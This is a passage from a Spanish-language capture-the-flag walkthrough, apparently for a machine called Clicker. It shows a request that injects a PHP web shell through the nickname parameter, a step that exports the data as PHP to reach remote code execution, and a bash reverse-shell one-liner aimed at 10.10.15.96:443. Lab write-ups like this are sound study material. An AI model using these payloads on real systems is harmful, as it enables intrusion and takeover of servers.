Asi mismo en el archivo **authenticate.php** tambien podemos ver la existencia de ese parametro:

```php
if(check_auth($_POST['username'], $_POST['password'])) {
		$_SESSION["PLAYER"] = $_POST["username"];
		$profile = load_profile($_POST["username"]);
		$_SESSION["NICKNAME"] = $profile["nickname"];
		$_SESSION["ROLE"] = $profile["role"];
		$_SESSION["CLICKS"] = $profile["clicks"];
		$_SESSION["LEVEL"] = $profile["level"];
		header('Location: /index.php');
```

Haremos lo mismo que en la parte de CRLF injection, pero agregando ese nuevo parametro, por lo que la peticion quedaria asi:

```ruby
GET /save_game.php?clicks=29&level=0&nickname=<%3fphp+system($_GET['comando'])+%3f> HTTP/1.1
```
Y en la parte para exportar el resultado volvemos a interceptar la peticion y le cambiamos el formato a PHP

Podemos ver que se puso en formato PHP

![](/assets/img/clicker/3.png)

Y al ingresar a la URL, veremos que hecmos conseguido RCE:

![](/assets/img/clicker/4.png)

Ahora solo queda enviarnos  una reverse shell

```ruby
echo "sh -i >& /dev/tcp/10.10.15.96/443 0>&1" | base64
```
